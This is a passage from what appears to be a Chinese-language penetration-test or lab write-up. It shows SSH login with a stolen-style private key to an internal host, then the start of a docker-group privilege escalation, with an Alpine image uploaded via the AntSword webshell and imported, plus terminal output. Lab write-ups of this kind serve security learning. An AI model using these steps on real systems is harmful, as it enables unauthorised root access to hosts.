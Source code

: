 ```bash
-----END RSA PRIVATE KEY-----
```

### ssh 私钥登录

```bash
ssh -i id_rsa cf1@10.223.82.21
```

#### SSH 私钥报错

https://blog.csdn.net/qq_39441603/article/details/134587647?sharetype=blog&shareId=134587647&sharerefer=APP&sharesource=goven0&sharefrom=qq

```bash
ssh-keygen
```

将公钥添加到服务器的authorized_keys之后

```bash
ssh cf1@10.223.82.21 -p 17022 -i id_rsa
```



```bash
id
groups
```

确定存在docker

#### docker提权

##### 上传docker镜像

通过蚁剑上传docker镜像到`/tmp`

> alpine-minirootfs-3.17.10-x86_64.tar.gz

##### 加载镜像

```bash
docker import /tmp/alpine-minirootfs-3.17.10-x86_64.tar.gz alpine
docker images
```

查看加载镜像情况

```bash
cf1@08:~$ docker import /tmp/alpine-minirootfs-3.17.10-x86_64.tar.gz alpine
sha256:24f17b1add4c7817a62a139a99e45307efce263865a5a3bd7825d768927e539d

cf1@08:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              24f17b1add4c        12 seconds ago      7.08MB
cf1@08:~$ 
```
